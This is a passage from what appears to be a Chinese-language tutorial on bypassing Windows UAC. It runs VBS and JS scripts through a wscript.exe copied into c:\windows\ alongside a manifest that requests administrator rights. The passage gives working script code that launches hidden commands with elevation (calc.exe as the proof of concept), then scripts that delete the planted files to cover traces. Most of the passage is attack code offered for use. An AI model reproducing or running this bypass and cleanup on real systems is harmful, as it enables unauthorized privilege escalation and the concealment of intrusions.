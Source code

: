 cmd：

```
c:\windows\wscript.exe c:\test\1.vbs
c:\windows\wscript.exe c:\test\1.js
```

**注：**

此处js和vbs脚本需要绝对路径，虽然是普通用户权限的cmd，但因为wscript.exe同级目录下的wscript.exe.manifest指定以管理员权限启动，所以执行的vbs或者js脚本是管理员权限，这就实现了UAC绕过


执行cmd命令对应的vbs脚本如下:

```
Dim objShell
Dim oFso
Set oFso = CreateObject("Scripting.FileSystemObject")
Set objShell = WScript.CreateObject("WScript.Shell")
command = "cmd /c calc.exe"
objShell.Run command, 0
Set objShell = Nothing
```

对应的js脚本如下：

```
new ActiveXObject("WScript.Shell").Run("cmd /c calc.exe",0,true);
```


### 5、绕过后清除缓存文件


删除c:\windows\下的wscript.exe和wscript.exe.manifest

对应vbs脚本如下:

```
Dim objShell
Dim oFso
Set oFso = CreateObject("Scripting.FileSystemObject")
Set objShell = WScript.CreateObject("WScript.Shell")
command = "cmd /c del c:\windows\wscript.exe && del c:\windows\wscript.exe.manifest"
objShell.Run command, 0
Set objShell = Nothing
```

对应js脚本如下：

```
new ActiveXObject("WScript.Shell").Run("cmd /c del c:\\windows\\wscript.exe && del c:\\windows\\wscript.exe.manifest",0,true);
```

**注：**

删除c:\windows\下的wscript.exe和wscript.exe.manifest需要管理员权限

删除缓存文件：
